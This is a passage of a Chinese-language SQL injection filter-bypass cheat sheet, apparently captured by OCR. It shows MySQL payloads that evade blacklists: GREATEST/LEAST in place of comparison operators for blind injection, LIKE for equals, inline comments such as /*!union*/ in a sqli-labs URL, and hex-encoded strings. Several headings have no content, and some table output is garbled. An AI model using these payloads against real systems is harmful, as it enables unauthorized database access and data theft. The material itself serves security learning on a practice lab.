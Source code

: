 ```
select * from user limit 2,1;
select * from user limit 1 offset 2;
```

## 比较符号绕过
在盲注的时候，很多时候要用到比较符号大于(<)和小于(>)来进行二分查找，如果目标对比较符号进行了过滤，我们就需要通过greatest和least等函数进行绕过，这两个函数用法如下：

```
GREATEST(value1, value2, ...);
LEAST(value1,value2,...);
```
greatest函数会返回这些值里的最大值，least函数会返回最小值。如果我们要用刚才的mid方法比较，就需要这样构造：

```
greatest(ascii(mid(user(),0,1)),150)
least(ascii(mid(user(),0,1)),150)
```

## or and 绕过
and=&&  or=||

## 绕过注释符号（#，--）

## 等号绕过
使用like 或者 使用< 或者 >

## 绕过union，select，where等
黑名单过滤

### 双写

### 使用内联注释
`/*!content*/`只有MySQL会正常识别content的内容

```
http://localhost/sqli-labs/Less-1/?id=-1' /*!union*/ select 1,2,3 --+
```

## 黑名单关键词绕过



### 十六进制绕过
对于某些进行敏感词汇检查的机制(黑名单,替换等)，可以通过填ascii编码的十六进制来绕过:

假设这个输入过滤了`108`这个字符串,我们把108转化为16进制的ascii码,就可以绕过

```
mysql> select * from student where sno=0x313038;
+-----+--------+------+---------------------+-------+
| sno | sname  | ssex | sbirthday           | class |
+-----+--------+------+---------------------+-------+
| 108 | 鏇惧崕   | 鐢?  | 1997-09-01 00:00:00 | 95033 |
+-----+--------+------+---------------------+-------+
1 row in set (0.00 sec)
```
